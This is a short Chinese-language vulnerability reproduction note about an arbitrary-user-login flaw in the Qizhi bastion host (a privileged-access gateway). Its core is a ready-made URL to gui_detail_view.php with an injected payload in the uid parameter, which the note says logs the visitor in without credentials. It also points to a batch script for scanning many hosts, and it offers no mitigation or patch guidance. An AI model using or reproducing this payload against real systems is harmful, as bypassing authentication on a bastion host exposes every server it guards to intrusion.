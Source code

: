 # 0x00 软件介绍
齐治堡垒机：国内著名堡垒机厂商  
官网：https://www.qzsec.com/

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
访问如下地址
```
https://x.x.x.x/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```
访问后即为登录状态，表示存在任意用户登录漏洞  
![image](./pic/0.png)

# 0x05 批量脚本
齐治堡垒机-任意用户登录-Vuln-Batch-Detect.py，具体用法见：python3 齐治堡垒机-任意用户登录-Vuln-Batch-Detect.py -h  
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw

